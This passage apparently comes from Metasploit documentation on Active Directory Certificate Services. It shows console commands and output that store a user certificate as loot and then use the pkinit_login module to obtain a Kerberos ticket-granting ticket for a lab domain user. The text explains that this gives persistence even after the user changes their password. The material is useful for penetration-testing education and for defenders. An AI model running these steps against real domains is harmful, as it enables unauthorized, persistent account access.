 ```
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

At this point we now have a certificate saved locally which we can use to authenticate to the domain as our current user. This allows persistance in the event that the user changes their password.
Even if the user changes their password, so long as the issued certificate is still valid, has not expired, and has not been revoked, we can still use that to log into the domain as the user for whom
the certificate was issued.

We can then use the `pkinit_login` module to gain a Kerberos ticket granting ticket (TGT) as the `normal@daforest.com` user.

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > show options

Module options (auxiliary/admin/kerberos/pkinit_login):

   Name       Current Setting                  Required  Description
   ----       ---------------                  --------  -----------
   CERT_FILE  /home/gwillcox/.msf4/loot/20221  yes       File containing a certificate (*.pfx) to authenticate w
              216145113_default_unknown_windo            ith
              ws.ad.cs_961069.pfx
   CERT_PASS                                   no        Password for the Certificate file
   DOMAIN                                      no        Override domain in certificate file
   RHOSTS     172.30.239.85                    yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT      88                               yes       The target port
   Timeout    10                               yes       The TCP timeout to establish connection and read data
   USERNAME                                    no        Override username in certificate file


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for normal@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216145753_default_172.30.239.85_mit.kerberos.cca_452545.bin
```